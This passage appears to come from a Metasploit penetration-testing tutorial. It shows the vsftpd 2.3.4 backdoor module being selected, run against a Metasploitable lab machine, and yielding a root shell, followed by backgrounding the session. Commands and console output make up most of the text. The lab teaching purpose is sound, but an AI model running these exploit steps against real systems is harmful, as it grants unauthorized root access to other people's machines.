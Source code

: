 Now you have to specify a payload as well. Let’s see what are our options:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show payloads
```

```
Compatible Payloads
===================

   #  Name                       Disclosure Date  Rank    Check  Description
   -  ‐‐‐‐                       ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐    ‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   0  payload/cmd/unix/interact                   normal  No     Unix Command, Interact with Established Connection

Not much of an option right? And this one is already set up in the options. You can check it yourself. There are no required values for this payload as well. Let’s check if this exploit will work or not –
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > check
 [-] Check failed: NoMethodError This module does not support check.

So, this exploit doesn’t support checking. Let’s move forward. This is the moment of truth. Let’s exploit the machine –
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.74.129:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.74.129:21 - USER: 331 Please specify the password.
[+] 192.168.74.129:21 - Backdoor service has been spawned, handling...
[+] 192.168.74.129:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 2 opened (0.0.0.0:0 -> 192.168.74.129:6200) at 2022-02-07 05:14:38 -0400


whoami
root
```

Voila! We’ve successfully exploited the machine. We got the shell access. I ran the `whoami` command and got the reply as `root`. So, we have full access to the Metasploitable machine. We can do whatever the root can – everything!

Now before we show what to do after exploitation, let’s see some other methods of exploitation as well.

#### Keeping the sessions in the background <a href="#post-3536-_heading-h.1hmsyys" id="post-3536-_heading-h.1hmsyys"></a>

First, let’s keep the session we got in the background:

Type in `background` within the terminal, then type `y` and hit enter:

```
whoami
root
background

Background session 2? [y/N]   y
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
```
